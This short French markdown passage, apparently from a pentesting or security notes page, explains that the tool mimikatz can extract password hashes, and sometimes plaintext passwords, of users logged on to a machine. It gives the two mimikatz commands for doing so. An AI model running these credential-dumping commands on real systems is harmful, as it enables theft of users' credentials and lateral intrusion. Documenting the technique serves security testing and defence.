 # Session utilisateur

Avec l'outil `mimikatz`, il est possible d'obtenir les _hashs_ et parfois les mots de passe des utilisateurs s'étant connecté à un poste bureautique ou serveur.

```
privilege::debug
sekurlsa::logonpasswords
```

